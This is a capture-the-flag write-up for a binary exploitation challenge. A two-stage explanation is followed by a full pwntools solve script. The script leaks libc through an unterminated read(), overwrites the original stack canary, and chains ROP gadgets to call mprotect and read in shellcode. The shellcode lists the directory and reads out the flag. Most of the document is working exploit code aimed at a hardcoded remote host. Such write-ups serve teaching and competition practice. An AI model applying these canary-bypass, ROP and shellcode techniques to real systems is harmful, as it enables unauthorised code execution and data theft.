 ## Solution

We can divide the solution into 2 stages:

Stage 1: read() will not add null byte at the end so read() until the address of sleep and the printf will give us libc address. With libc address, we can calculate the address of original canary and overwrite that canary to make it the same as payload of stage 2

Stage 2: after overwriting canary, we can pass the `__stack_chk_fail()` and execute 3 address so we will do a read() to overwrite stack with a simple ROPchain which will execute mprotect, read shellcode and then execute our shellcode. In shellcode, we will use mmap2 to create a 32-bit address and then read dir to know what the flag file name is, then open, read and write flag to us.

Solve script:

```python
from pwn import *

libc = ELF('./libc-2.34.so', checksec=False)
context.binary = exe = ELF('./setup', checksec=False)
context.log_level = 'debug'

if args.LOCAL:
    p = process(exe.path)
else: 
    p = remote('20.124.204.46', 9994)

##########################################
### Stage 1: Overwrite original canary ###
##########################################
# To find the address of original canary, 
# debug with gdb then use 'search' to search
# for all addresses to know which address contain
# original libc (that's the address before libc)
p.sendlineafter(b'> ', b'1')
p.sendafter(b'to: ', b'A'*(0x18) )
p.sendlineafter(b'> ', b'1')

p.recvuntil(b'A'*(0x18))
libc_leak = u64(p.recvline()[:6] + b'\x00'*2)
libc.address = libc_leak - 0xed88e
original_canary_addr = libc.address - 0x2898
log.info(hex(libc_leak))
log.info(hex(libc.address))
log.info(hex(original_canary_addr))

####################
### Stage 2: RCE ###
####################
pop_rax = 0x0000000000049f10 + libc.address
pop_rdx = 0x0000000000120272 + libc.address
pop_rdi = 0x000000000002e6c5 + libc.address
pop_rsi = 0x0000000000030081 + libc.address
syscall = 0x0000000000095196 + libc.address

# We have 3 address so do a read() is possible with
# rax = 0
# rdx = 0xffffffff
# rsi = rsp - ???
payload = flat(
    original_canary_addr,
    b'B'*0x58,
    pop_rdi, 0,
    syscall
)
p.sendafter(b'name: ', payload)

# We have unlimited input now.
# But I prefer shellcode so let's mprotect() and input
# shellcode, then execute our shellcode
payload = b'D'*0x21d0
payload += flat(
    # mprotect
    pop_rax, p64(0xa),
    pop_rdi, libc.address + 0x21a000,
    pop_rsi, 0x1000,
    pop_rdx, 7,
    syscall,

    # Input shellcode
    pop_rdi, 0,
    pop_rsi, libc.address + 0x21a800,
    pop_rdx, 0x1000,
    syscall,

    # Execute shellcode
    libc.address + 0x21a800,
    )
p.sendafter(b'Data: ', b'B'*8 + payload)

# C function in order:
# 1. mmap2(0x500000, 0x5000, 3, 1048610, 0, 0)
#
# 2. fd1 = open(".", 0, 0)
# 3. getents(fd1, $rsp, 0x1337)
#
# 4. fd2 = open(flag, 0, 0)
# 5. read(fd2, $rsp, 0x100)
# 6. write(1, $rsp, 0x100)
shellcode = asm(
    '''
    mov rax, 0xc0
    mov rbx, 0x500000
    mov rcx, 0x5000
    mov rdx, 3
    mov rsi, 1048610
    xor rdi, rdi
    xor rbp, rbp
    int 0x80

    mov rsp, 0x500a00

    mov rax, 5
    push 0x2e
    mov rbx, rsp
    xor rcx, rcx
    int 0x80

    mov rbx, rax
    mov rax, 0x8d
    mov rcx, rsp
    mov rdx, 0x1337
    int 0x80

    add rcx, 126
    
    mov rax, 5
    mov rbx, rcx
    xor rcx, rcx
    xor rdx, rdx
    int 0x80

    mov rdi, rax
    mov rsi, rsp
    mov rdx, 0x100
    xor rax, rax
    syscall

    mov rdi, 1
    mov rax, 1
    syscall
    ''', arch='amd64')
p.sendafter(b'Hello World Setup Wizard\n\x1b[0m', shellcode)

print(p.recvall())
p.interactive()
```